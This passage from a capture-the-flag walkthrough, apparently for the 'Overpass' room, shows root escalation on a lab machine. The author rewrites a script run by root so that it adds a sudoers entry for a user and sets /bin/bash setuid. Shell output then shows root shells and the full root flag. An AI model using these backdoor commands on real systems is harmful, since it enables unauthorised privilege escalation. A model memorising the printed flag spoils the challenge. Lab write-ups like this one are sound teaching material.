 - Ever though james was added to **sudo group**, the **/etc/sudoers** file didn't contain james.
- So, we need to add that to our script file.
- I also changed the permission of `/bin/bash` to **4777**. (As a backup, incase if modifying sudoers file didn't work)

### Modified buildscript.sh

```bash
$ nano downloads/src/buildscript.sh 

$ cat downloads/src/buildscript.sh 
usermod -aG sudo james
echo "james ALL=(ALL:ALL) ALL" >> /etc/sudoers
chmod 4777 /bin/bash
```

---

## root.txt
- **Answer:** thm{7f336f8c359dbac18d54fdd64ea753bb}

- Finally both worked!!
- Using `sudo bash` and james' password:

```bash
james@overpass-prod:~$ whoami
james
james@overpass-prod:~$ sudo bash

root@overpass-prod:~# ls
downloads  linpeas.out  linpeas.sh  todo.txt  user.txt
root@overpass-prod:~# cd /root
root@overpass-prod:/root# ls
buildStatus  builds  go  root.txt  src
root@overpass-prod:/root# cat root.txt 
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

- Using `/bin/bash -p`:

```bash
root@overpass-prod:~# exit
exit
james@overpass-prod:~$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```
